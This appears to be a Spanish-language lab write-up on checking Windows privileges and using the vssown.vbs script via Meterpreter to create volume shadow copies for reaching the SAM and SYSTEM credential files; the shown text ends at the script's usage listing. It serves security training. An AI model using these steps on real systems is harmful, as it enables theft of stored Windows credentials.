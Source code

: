     - Comprobar privilegios
        
    ```bash
    whoami
    ```
    ![figura](/assets/images/2024-11-03-EP/Captura de pantalla 2024-11-03 192845.png) 

    ```bash
    whoami /priv
    ```
    ![figura](/assets/images/2024-11-03-EP/Captura de pantalla 2024-11-03 193415.png) 
    > **Comentario:** En la captura de pantalla se logra ver que se tiene los privilegios de administrador por que se muestra SeBackupPrivilege, SeRestorePrivilege, etc.


- Link de descarga del archivo **vssown.vbs**: Descargar archivo - [Descargar archivo](https://ollerenacastro.github.io/assets/files/vssown.vbs)


- Describe brevemente cómo utilizarías esta copia de sombra para acceder a los archivos SAM y SYSTEM. Enumera los comandos necesarios en Meterpreter o la shell de Windows para:
    > **Descripción:** 

    1. Crear la copia de sombra.
        ```bash
        meterpreter > upload  /home/user/Downloads/vssown.vbs vagrant@10.0.2.4:/cygdrive/c/Users/vagrant
        ```  
    2. Ejecutar

        ```bash
        /cygdrive/c/Users/vagrant
        -sh-4.3$                    
        -sh-4.3$ cscript.exe vssown.vbs
        Microsoft (R) Windows Script Host Version 5.8
        Copyright (C) Microsoft Corporation. All rights reserved.

        Usage: cscript vssown.vbs [option]

        cscript vssown.vbs create 

        Options:

        /list                             - List current volume shadow copies.
        /start                            - Start the shadow copy service.
        /stop                             - Halt the shadow copy service.
        /status                           - Show status of shadow copy service.
        /mode                             - Display the shadow copy service start mode.
        /mode [Manual|Automatic|Disabled] - Change the shadow copy service start mode.
        /create [drive_letter]            - Create a shadow copy.
        /delete [id|*]                    - Delete a specified or all shadow copies.
        /mount [path] [device_object]     - Mount a shadow copy to the given path.
        /execute [\path\to\file]          - Launch executable from within an umounted shadow copy.
        /store                            - Display storage statistics.
        /size [bytes]                     - Set drive space reserved for shadow copies.
        /build [filename]                 - Print pasteable script to stdout.
        ```  
